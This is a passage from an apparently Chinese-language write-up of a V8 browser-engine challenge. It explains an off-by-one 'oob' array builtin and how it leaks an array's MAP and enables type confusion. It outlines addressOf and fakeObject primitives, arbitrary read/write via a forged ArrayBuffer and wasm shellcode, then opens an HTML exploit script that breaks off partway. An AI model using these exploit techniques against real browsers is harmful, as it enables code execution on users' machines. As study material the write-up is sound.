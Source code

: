 可以看到读操作溢出了一个单位，因为下标是以0开始的，同理当参数个数为2个时，进行写操作

```
elements.set(length,value-&gt;Number());
```

其中`BUILTIN(ArrayOob)`的第一个参数为`Array`本身，因此从`js`层面来看，oob接收的参数要么为0个要么为1个。

#### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

要利用该漏洞，我们考虑使用`var a = [1.1,2.2,3.3]`这种`DOUBLE_ELEMENTS`类型的数组，因为这种数组里的数据是`unboxed`的，即没有包装为`HeapNumber`，elements里存的就是真值。在大多数情况下，这种类型的数组其elements在内存里的位置正好位于`Array`对象的上方，没有间隔。<br>
测试以下代码，用gdb调试

```
var a = [1.1,2.2];
%DebugPrint(a);
%SystemBreak();
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01462128fe6acaa354.png)

查看elements里，2.2这个数据后方是什么，可以发现是`Array`对象的MAP，而在v8里，如果能够控制对象MAP值，那么就可以造成类型混淆，轻松构造`addressOf`和`fakeObject`原语

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01a4de072f28369f9b.png)

并且可以看到这个版本的v8没有`compression pointer`机制，因此`addressOf`获得的就是对象的完整地址，然后可以轻松伪造一个`ArrayBuffer`实现任意地址读写，写wasm的shellcode区域。<br>
exp

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
  &lt;body&gt;
    &lt;script&gt;
var a = [1.1];
var unboxed_double_map = a.oob();
var obj = `{``}`;
var b = [obj];
var obj_element_map = b.oob();

var buf = new ArrayBuffer(0x8);
var dv = new DataView(buf);

function p64f(value1,value2) `{`
   dv.setUint32(0,value1,true);
   dv.setUint32(0x4,value2,true);
   return dv.getFloat64(0,true);
`}`

function i2f64(value) `{`
   dv.setBigUint64(0,BigInt(value),true);
   return dv.getFloat64(0,true);
`}`

function u64f(value) `{`
   dv.setFloat64(0,value,true);
   return dv.getBigUint64(0,true);
`}`

function addressOf(obj) `{`
   b[0] = obj;
   b.oob(unboxed_double_map);
```
